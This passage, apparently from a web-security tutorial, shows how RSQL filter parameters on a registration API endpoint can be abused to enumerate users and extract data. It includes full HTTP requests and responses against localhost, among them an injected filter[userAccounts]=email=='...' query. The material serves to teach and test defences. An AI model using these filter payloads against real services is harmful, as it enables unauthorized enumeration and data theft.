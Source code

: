```Or even take advantage to extract sensitive information with Boolean queries or nested subqueries.
The following request shows a registration endpoint that requires the email parameter to check if there is any user registered with that email and return a true or false depending on whether or not it exists in the database:
### Request
```
GET /api/registrations HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://localhost:3000
Connection: keep-alive
Referer: https://localhost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 400 
Date: Sat, 22 Mar 2025 14:47:14 GMT
Content-Type: application/vnd.api+json
Connection: keep-alive
Vary: Origin
Vary: Access-Control-Request-Method
Vary: Access-Control-Request-Headers
Access-Control-Allow-Origin: *
Content-Length: 85

{
    "errors": [{
        "code": "BLANK",
        "detail": "Missing required param: email",
        "status": "400"
    }]
}
```
```
Although a `/api/registrations?email=<emailAccount>` is expected, it is possible to use RSQL filters to attempt to enumerate and/or extract user information through the use of special operators:
### Request
```
GET /api/registrations?filter[userAccounts]=email=='test@test.com' HTTP/1.1
Host: localhost:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: application/vnd.api+json
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/vnd.api+json
Origin: https://locahost:3000
Connection: keep-alive
Referer: https://locahost:3000/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
```
```### Response
```
HTTP/1.1 200 
Date: Sat, 22 Mar 2025 14:09:38 GMT
Content-Type: application/vnd.api+json;charset=UTF-8
Content-Length: 38